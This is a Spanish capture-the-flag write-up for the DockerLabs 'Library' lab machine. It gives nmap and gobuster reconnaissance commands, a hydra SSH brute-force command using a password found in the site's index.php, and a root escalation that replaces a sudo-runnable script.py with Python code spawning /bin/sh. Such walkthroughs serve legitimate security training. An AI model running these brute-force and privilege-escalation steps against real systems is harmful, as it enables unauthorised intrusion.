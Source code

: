 ```yaml
---
title: Library - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/d41b0946-80ee-44bd-93a7-301c8cff5311)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
- `22` (SSH)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/237d04c4-8a6f-47d5-af9c-a6818d7248e6)

# Exploración Web

Al acceder a la página web, observamos un panel de Apache que está configurado por defecto.

![image](https://github.com/user-attachments/assets/a460f045-4527-4915-8b66-a9bcc7a5bee7)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/04a839c1-ecb8-429f-abbf-6f1eae7919d9)

Al mirar vemos que en el archivo index.php hay un codigo. 

![image](https://github.com/user-attachments/assets/8223d36b-e8a7-4f48-8f4a-c3a0edb58f38)

## Fuerza bruta

Vamos a ver si esa contraseña es de aalgun usuario para ello usaremos hydra.

```bash
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2 -t 4
```
![image](https://github.com/user-attachments/assets/de9f0095-9c4c-4433-9763-eeda46294ebb)

Encontramos el usuario `Carlos` vamos a ingresar a traves de `SSH`

## Escalada de Privlegios.

Ahora que estamos dentro de la máquina, si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar un script llamada script.py como el usuario `root`. 

![image](https://github.com/user-attachments/assets/d0cc8ad5-c39e-4f76-84e9-9ca1fb08cfa3)

Lo que haremos sera acceder a opt y ver que permisos tenemos sobre ese archivo.

![image](https://github.com/user-attachments/assets/8f3fb4b5-3c45-4af2-b494-4f8ed4818355)

Lo que podemos hacer es eliminar el archivo y crear otro con el mismo nombre pero que un su interior tenga lo siguiente:

```python
import os

os.system('/bin/sh')
```
![image](https://github.com/user-attachments/assets/38d009b7-eb43-41bf-bbfb-9520a1fb8b8a)

Lo volvemos a ejecutar.

![image](https://github.com/user-attachments/assets/f4bb818c-5cde-4c32-b6ce-e165d9ffe90c)

Ya somos root !!
